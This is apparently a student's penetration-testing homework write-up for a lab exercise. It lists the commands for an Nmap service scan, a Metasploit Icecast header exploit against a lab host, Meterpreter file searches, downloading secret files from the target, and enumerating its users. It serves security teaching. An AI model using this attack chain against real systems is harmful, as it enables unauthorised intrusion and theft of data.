 # **Brian C Williams 17-Penetration II Homework** # 

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

1. Run the Nmap command that performs a service and version scan against the target.

	**Answer: nmap -sV 192.168.0.20**

	![Image of question1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast 	      	 exploits:

	Run the SearchSploit commands to show available Icecast exploits.

	**Answer: searchsploit icecast windows**

	![Image of q2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q2.PNG)

3. Now that we know which exploits are available to us, let's start Metasploit:

	Run the command that starts Metasploit:
	
	**Answer: msfconsole** 

	![Image of q3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q3.PNG)

4. Search for the Icecast module and load it for use.
	
	Run the command to search for the Icecast module:

	**Answer: search icecast**

	![Image of q4](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q4.PNG)

5. Run the command to use the Icecast module:
	
	Note: Instead of copying the entire path to the module, you can use the number in front of it.
        
	**Answer: use exploit/windows/http/icecast_header or use 0**
	
      ![Image of q5](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q5.PNG)

6. Set the RHOST to the target machine.
   
      Run the command that sets the RHOST:
	
      **Answer: set RHOST 192.168.0.20**
	
      ![Image of q6](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q6.PNG)
   
7. Run the Icecast exploit.

  	Run the command that runs the Icecast exploit.

	**Answer: run or exploit**
	
	![Image of q7](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q7.PNG)

8. Run the command that performs a search for the secretfile.txt on the target.

	**Answer**: search -f  *secretfile.txt**
	
	![Image of q8](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q8.PNG)

9. You should now have a Meterpreter session open.
   
      Run the command to performs a search for the recipe.txt on the target:

	**Answer**: search -f *recipe.txt
	
	![Image of q9](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q9.PNG)

	Bonus: Run the command that exfiltrates the recipe*.txt file:

	**Answer: download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt**
		
	**download c:\\Users\\IEUSER\\Documents\\user.secretfile.txt**
	
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q10.PNG)
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q12.PNG)

10. You can also use Meterpreter's local exploit suggester to find possible exploits.

	**Answer: run post/multi/recon/local_exploit_suggester**
	
	![Image of q10](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q11.PNG)

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus

A. Run a Meterpreter post script that enumerates all logged on users.
	
	**Answer: run post/windows/gather/enum_logged_on_users**

   ![Image of bonus1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B1.PNG)

B. Open a Meterpreter shell and gather system information for the target.
	
	**Answer: shell**
 		**systeminfo**
	
   ![Image of bonus2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B2.PNG)
	
C. Run the command that displays the target's computer system information:

	**Answer: sysinfo**
	
   ![Image of bonus3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B3.PNG)


